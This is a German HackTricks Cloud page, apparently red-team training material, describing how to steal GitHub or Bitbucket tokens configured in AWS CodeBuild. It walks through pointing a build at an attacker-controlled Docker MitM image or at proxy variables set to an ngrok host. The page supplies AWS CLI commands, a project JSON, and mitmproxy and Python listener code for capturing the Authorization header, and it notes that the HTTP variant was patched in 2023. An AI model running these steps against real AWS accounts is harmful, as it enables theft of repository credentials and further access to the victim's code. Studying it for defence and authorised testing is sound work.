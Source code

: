 # AWS Codebuild - Token-Leckage

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merchandise**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) Github-Repositories einreichen.

</details>

## Wiederherstellen von Github/Bitbucket konfigurierten Tokens

Überprüfen Sie zunächst, ob irgendwelche Quellzugangsdaten konfiguriert sind, die Sie möglicherweise leaken könnten:
```bash
aws codebuild list-source-credentials
```
### Über Docker-Image

Wenn Sie feststellen, dass die Authentifizierung beispielsweise für Github im Konto festgelegt ist, können Sie diesen Zugriff (GH-Token oder OAuth-Token) durch Veranlassen von Codebuild, ein spezifisches Docker-Image zur Ausführung des Projektaufbaus zu verwenden, **exfiltrieren**.

Zu diesem Zweck könnten Sie ein neues Codebuild-Projekt erstellen oder die **Umgebung** eines vorhandenen ändern, um das **Docker-Image** festzulegen.

Das Docker-Image, das Sie verwenden könnten, finden Sie unter [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Dies ist ein sehr grundlegendes Docker-Image, das die **Umgebungsvariablen `https_proxy`**, **`http_proxy`** und **`SSL_CERT_FILE`** festlegt. Dadurch können Sie den Großteil des Datenverkehrs des im **`https_proxy`** und **`http_proxy`** angegebenen Hosts abfangen und dem im **`SSL_CERT_FILE`** angegebenen SSL-Zertifikat vertrauen.

1. **Erstellen und Hochladen Ihres eigenen Docker MitM-Images**
   * Befolgen Sie die Anweisungen des Repos, um Ihre Proxy-IP-Adresse festzulegen und Ihr SSL-Zertifikat zu setzen und **bauen Sie das Docker-Image**.
   * **SETZEN SIE NICHT `http_proxy`**, um Anfragen an den Metadaten-Endpunkt nicht abzufangen.
   * Sie könnten **`ngrok`** wie `ngrok tcp 4444` verwenden, um den Proxy zu Ihrem Host zu setzen.
   * Sobald Sie das Docker-Image erstellt haben, **laden Sie es in ein öffentliches Repo hoch** (Dockerhub, ECR...).
2. **Setzen der Umgebung**
   * Erstellen Sie ein **neues Codebuild-Projekt** oder **ändern** Sie die Umgebung eines vorhandenen.
   * Legen Sie das Projekt fest, um das **zuvor generierte Docker-Image zu verwenden**.

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

3. **Setzen des MitM-Proxys auf Ihrem Host**
   * Wie im **Github-Repo** angegeben, könnten Sie etwas Ähnliches verwenden:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
Die **mitmproxy-Version, die verwendet wurde, war 9.0.1**, es wurde berichtet, dass dies mit Version 10 möglicherweise nicht funktioniert.
{% endhint %}

4. **Führen Sie den Build aus und erfassen Sie die Anmeldeinformationen**

*   Sie können das Token im **Authorization**-Header sehen:

<figure><img src="../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Dies könnte auch über die AWS CLI mit etwas Ähnlichem durchgeführt werden

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### Über das HTTP-Protokoll

{% hint style="success" %}
**Diese Schwachstelle wurde von AWS irgendwann in der Woche vom 20. Februar 2023 behoben (ich glaube am Freitag). Ein Angreifer kann sie also nicht mehr ausnutzen :)**
{% endhint %}

Ein Angreifer mit erhöhten Berechtigungen in einem CodeBuild könnte das konfigurierte Github/Bitbucket-Token **offenlegen** oder, wenn die Berechtigungen über OAuth konfiguriert wurden, das **temporäre OAuth-Token, das zum Zugriff auf den Code verwendet wird**.

* Ein Angreifer könnte die Umgebungsvariablen **http\_proxy** und **https\_proxy** zum CodeBuild-Projekt hinzufügen, die auf seine eigene Maschine verweisen (zum Beispiel `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Ändern Sie dann die URL des Github-Repositorys, um HTTP anstelle von HTTPS zu verwenden, zum Beispiel: \*\*http://\*\*github.com/carlospolop-forks/TestActions
* Führen Sie dann das Grundbeispiel von [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) auf dem Port aus, auf den die Proxy-Variablen (http\_proxy und https\_proxy) verweisen.
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Klicken Sie abschließend auf **Projekt erstellen**, die **Anmeldeinformationen** werden im Klartext (base64) an den mitm-Port gesendet:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Nun kann ein Angreifer das Token von seinem Gerät aus verwenden, um alle Berechtigungen aufzulisten, die es hat, und sie einfacher missbrauchen als den direkten Einsatz des CodeBuild-Dienstes.
{% endhint %}

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Null auf Held mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositorys einreichen.

</details>
